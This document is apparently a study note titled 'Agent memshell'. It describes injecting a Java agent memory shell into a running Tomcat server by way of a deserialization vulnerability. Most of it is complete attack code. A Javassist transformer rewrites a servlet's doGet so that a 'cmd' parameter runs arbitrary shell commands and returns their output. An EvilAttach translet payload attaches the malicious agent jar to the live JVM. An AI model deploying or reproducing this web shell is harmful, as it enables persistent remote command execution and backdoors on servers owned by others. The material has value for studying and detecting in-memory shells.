 # Agent memshell

## Background

### Java agent

Java agent is a instrumentation technology, which allows modifying the bytecode of an unloaded java class or a loaded java class.

For retransformering a loaded java class, we need to write the java agent code and package it into a jar package. Then write a `attach` class to load the jar package and attach it to the running JVM.

### Javassist

The `Javassist` is a java class library for editing java bytecode like writing java.

## Anaysis

Firstly, we need to find a target class which can be hooked and exploited. Then write the corresponding java agent code and package it into a jar package. Upload the jar package to the attacked web server. Finally, execute the prepared `attach` class and load the jar package through deserialization vulnerability.

## Code

    public class AgentMain {
        public static final String ClassName = "com.index.IndexServlet";

        public static void agentmain(String args, Instrumentation inst) {
            inst.addTransformer(new Transformer(), true);
            Class[] loadedClasses = inst.getAllLoadedClasses();
            for (Class loadedClass : loadedClasses) {
                if(loadedClass.getName().equals(ClassName)) {
                    try {
                        inst.retransformClasses(loadedClass);
                    } catch (UnmodifiableClassException e) {
                        e.printStackTrace();
                    }
                }
            }

        }
    }

    public class Transformer implements ClassFileTransformer {
        public static final String ClassName = "com.index.IndexServlet";

        @Override
        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
            className = className.replace("/", ".");
            if(className.equals(ClassName)) {
                System.out.println("Got it");
                ClassPool classPool = ClassPool.getDefault();
                ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
                classPool.insertClassPath(classPath);
                try {
                    CtClass ctClass = classPool.getCtClass(className);
                    CtMethod method = ctClass.getDeclaredMethod("doGet");
                    method.insertBefore("java.lang.System.out.println(\"insert success\");\n" +
                            "if (req.getParameter(\"cmd\") != null) {\n" +
                            "   java.lang.String cmd = req.getParameter(\"cmd\");\n" +
                            "   boolean isLinux = true;\n" +
                            "   java.lang.String osType = java.lang.System.getProperty(\"os.name\");\n" +
                            "   if (osType != null && osType.toLowerCase().contains(\"win\")) {\n" +
                            "       isLinux = false;\n" +
                            "   }\n" +
                            "   java.lang.String[] cmds = isLinux ? new java.lang.String[]{\"sh\", \"-c\", cmd} : new java.lang.String[]{\"cmd.exe\", \"/c\", cmd};\n" +
                            "   java.io.InputStream in = java.lang.Runtime.getRuntime().exec(cmds).getInputStream();\n" +
                            "   java.util.Scanner s = new java.util.Scanner(in).useDelimiter(\"\\\\a\");\n" +
                            "   java.lang.String output = s.hasNext() ? s.next() : \"\";\n" +
                            "   java.io.PrintWriter out = resp.getWriter();\n" +
                            "   out.println(output);\n" +
                            "   out.flush();\n" +
                            "   out.close();\n" +
                            "}\n");
                    byte[] bytes = ctClass.toBytecode();
                    ctClass.detach();
                    return bytes;
                } catch (NotFoundException | CannotCompileException | IOException e) {
                    e.printStackTrace();
                }
            }
            return new byte[0];
        }
    }

    public class EvilAttach extends AbstractTranslet {
        static {
            final String path = "D:\\MemoryShellStudy\\EvilAgent\\target\\EvilAgent-1.0-SNAPSHOT-jar-with-dependencies.jar";
            File file = new File(System.getProperty("java.home").replace("jre", "lib") + File.separator + "tools.jar");

            try {
                URL url = file.toURI().toURL();
                System.out.println(url);
                URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
                Class<?> VirtualMachine = urlClassLoader.loadClass("com.sun.tools.attach.VirtualMachine");
                Class<?> VirtualMachineDescriptor = urlClassLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
                Method listMethod = VirtualMachine.getDeclaredMethod("list", null);
                List list = (List) listMethod.invoke(VirtualMachine, null);

                for (Object o : list) {
                    Method displayName = VirtualMachineDescriptor.getDeclaredMethod("displayName");
                    String name = (String) displayName.invoke(o, null);
                    System.out.println(name);
                    if(name.contains("org.apache.catalina.startup.Bootstrap")) {
                        Method attach = VirtualMachine.getDeclaredMethod("attach", VirtualMachineDescriptor);
                        Object vm = attach.invoke(VirtualMachine, o);
                        Method loadAgent = VirtualMachine.getDeclaredMethod("loadAgent", String.class);
                        loadAgent.invoke(vm, path);
                        System.out.println("inject success");
                        Method detach = VirtualMachine.getDeclaredMethod("detach", null);
                        detach.invoke(vm, null);
                    }
                }
            } catch (MalformedURLException | ClassNotFoundException | InvocationTargetException | NoSuchMethodException | IllegalAccessException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
    }
